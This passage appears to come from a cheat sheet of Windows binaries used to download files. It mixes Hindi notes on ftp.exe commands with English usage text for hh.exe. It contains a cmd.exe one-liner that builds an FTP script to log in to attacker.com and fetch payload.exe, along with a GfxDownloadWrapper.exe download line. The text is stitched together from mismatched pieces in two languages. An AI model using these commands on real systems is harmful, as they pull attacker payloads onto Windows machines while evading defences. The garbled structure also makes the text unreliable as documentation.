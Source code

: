 ```
put <स्थानीय_फ़ाइल> <रिमोट_पथ>
```

### फ़ाइलों को डाउनलोड करना

```
get <रिमोट_फ़ाइल> <स्थानीय_पथ>
```

### फ़ाइलों की सूची देखना

```
ls
```

### फ़ाइलों को हटाना

```
delete <रिमोट_फ़ाइल>
```

ये केवल कुछ उदाहरण हैं और `ftp.exe` के अन्य कमांड और विकल्प भी उपलब्ध हैं। आप `ftp /?` कमांड का उपयोग करके अधिक जानकारी प्राप्त कर सकते हैं।
```
cmd.exe /c "@echo open attacker.com 21>ftp.txt&@echo USER attacker>>ftp.txt&@echo PASS PaSsWoRd>>ftp.txt&@echo binary>>ftp.txt&@echo GET /payload.exe>>ftp.txt&@echo quit>>ftp.txt&@ftp -s:ftp.txt -v"
```
GfxDownloadWrapper.exe
```
C:\Windows\System32\DriverStore\FileRepository\igdlh64.inf_amd64_[0-9]+\GfxDownloadWrapper.exe "URL" "DESTINATION FILE"
```
# Hh.exe

`hh.exe` is a command-line tool in Windows that is used to open compiled HTML Help (.chm) files. It is commonly used to view documentation or help files in the CHM format.

## Usage

To use `hh.exe`, open a command prompt and navigate to the directory where `hh.exe` is located. Then, run the following command:

```
hh.exe <path_to_chm_file>
```

Replace `<path_to_chm_file>` with the actual path to the CHM file you want to open.

## Example

To open a CHM file named `help.chm` located in the `C:\docs` directory, you would run the following command:

```
hh.exe C:\docs\help.chm
```
